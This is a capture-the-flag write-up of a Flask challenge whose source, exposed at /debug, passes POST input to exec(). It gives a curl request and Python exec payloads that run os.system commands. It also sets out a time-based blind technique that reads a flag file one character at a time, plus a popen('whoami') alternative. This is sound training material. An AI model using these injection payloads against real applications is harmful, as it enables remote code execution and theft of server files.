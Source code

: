 # Web - baby interdimensional internet

## Description
> aw man, aw geez, my grandpa rick is passed out from all the drinking again, where is a calculator when you need one, aw geez

<br>
<br>

## Walkthrough

In this challenge we only had an online instance and there was no challenge code to download.

So I looked at the website in my browser and saw the following.

![Screenshot0](./screenshots/0.png)

A website with no obvious interaction options.When reloading the page, this strange numerical value always changed under the rick & morty GIF.

![Screenshot1](./screenshots/1.png)

So I enumerated the website as I usually do for websites at boxes and found something in the source code.

![Screenshot2](./screenshots/2.png)

Under the path `/debug` was the source code of the application which I would like to insert here.

```python3
from flask import Flask, Response, request, render_template, request
from random import choice, randint
from string import lowercase
from functools import wraps

app = Flask(__name__)

def calc(recipe):
	global garage
	garage = {}
	try: exec(recipe, garage)
	except: pass

def GCR(func): # Great Calculator of the observable universe and it's infinite timelines
	@wraps(func)
	def federation(*args, **kwargs):
		ingredient = ''.join(choice(lowercase) for _ in range(10))
		recipe = '%s = %s' % (ingredient, ''.join(map(str, [randint(1, 69), choice(['+', '-', '*']), randint(1,69)])))

		if request.method == 'POST':
			ingredient = request.form.get('ingredient', '')
			recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))

		calc(recipe)

		if garage.get(ingredient, ''):
			return render_template('index.html', calculations=garage[ingredient])

		return func(*args, **kwargs)
	return federation

@app.route('/', methods=['GET', 'POST'])
@GCR
def index():
	return render_template('index.html')

@app.route('/debug')
def debug():
	return Response(open(__file__).read(), mimetype='text/plain')

if __name__ == '__main__':
	app.run('0.0.0.0', port=1337)
```

Very good, now we have an insight under the hood into how the application works and can start working on it.

This web application creates random calculations and passes them to the exec function.

These calculations are generated by the application itself if it is called via GET.

However, using a specially crafted POST request, we can pass OWN user input to the application, which is then used for calculations.

So I set about designing a valid POST request so that the application calculates with my user input.

The following curl-POST command worked which I ran through Burp and I saw that the `exec` function now calculates with my user input.

`curl -X POST http://83.136.254.199:40948/ --data "ingredient=custom_ingredient&measurements=custom_ingredient+%3D+6+%2A+5" --proxy "http://127.0.0.1:8080"`

![Screenshot3](./screenshots/3.png)

<br>
<br>

## Exploitation

Well, first of all, my way to exploit the vulnerability was in retrospect, when I read other writeups, very inefficient and could have been solved more elegantly.

I had found an __RCE__ and worked with boolean and time based return values to find and extract the flag.

Anyway, you're always smarter afterwards and that was my way...

Ok, now that I had a working curl request and knew how to pass my input to the exec function, I tried the exploitation.

Passing user input to an exec function is dangerous as it can lead to __RCE Vulnerabilities__ and I set about finding a proof of concept.

My first proof of concept was to append a semicolon `;` followed by a custom `exec` function, import the `os` module and pass a sleep command to the `system` method:

`<POST_DATA>;exec("__import__('os').system('sleep 5')")`

![Screenshot4](./screenshots/4.png)

I changed the value of the sleep method a few times and noticed a delay in the response of the application.

The __RCE__ was confirmed.

Now I passed a `bash` if/else statement to `system()` and searched for the flag.

The oneliner if/else statement delays the application by ten seconds if there is a file named `flag` in this folder, which was the case.

`<POST_DATA>;exec("__import__('os').system('if [ -f ./flag ]; then sleep  10; fi ')")`

<br>

### Time Based Exfiltration

I exfiltrated the flag and brute-forced it char by char with the following payload:

`;exec("__import__('os').system('if [ $(cat flag|head -n1|cut -c1) == H ]; then sleep 10; fi')")`

This payload reads the first line of the file and passes it to the `cut` command, which reads the first character and compares it with the letter `H`.

If the letter is also an `H`, there is a time delay which is noticeable.

So I used the flag now char by char and exfiltrated the flag Boolean-Time-Based via Burp and a printable ascii list.

__Payload fifth char:__

![Screenshot5](./screenshots/5.png)

__Time delay:__

![Screenshot6](./screenshots/6.png)

My notekeeping then looked like this and after a while I had the flag.

```
;exec("__import__('os').system('if [ $(cat flag|head -n1|cut -c1) == H ]; then sleep 10; fi')")		#Delay
;exec("__import__('os').system('if [ $(cat flag|head -n1|cut -c2) == T ]; then sleep 10; fi')")		#Delay
;exec("__import__('os').system('if [ $(cat flag|head -n1|cut -c3) == B ]; then sleep 10; fi')")		#Delay
;exec("__import__('os').system('if [ $(cat flag|head -n1|cut -c4) == { ]; then sleep 10; fi')")		#Delay
;exec("__import__('os').system('if [ $(cat flag|head -n1|cut -c5) == n ]; then sleep 10; fi')")		#Delay
;exec("__import__('os').system('if [ $(cat flag|head -n1|cut -c6) == 3 ]; then sleep 10; fi')")		#Delay

<AND SO ON...>
```

<br>
<br>

## Conclusion

Well, as already mentioned, this challenge could have been solved much more easily and I had to laugh at how I had once again made it more difficult for myself than it needed to be.

A simple `__import__("os").popen("whoami").read()` in the `measurements` parameter, for example, would have given me readable return values in the web application, as I found out when reading other writeups after my solve.

![Screenshot7](./screenshots/7.png)

Perhaps the challenge will teach me to think a little further ahead in the future and not to exploit the first laborious payload straight away.

Or maybe a reminder that there are still __Time Based Exfiltration__ methods if there is really no other way to get optical return values.

Anyway...good and fun challenge nevertheless!
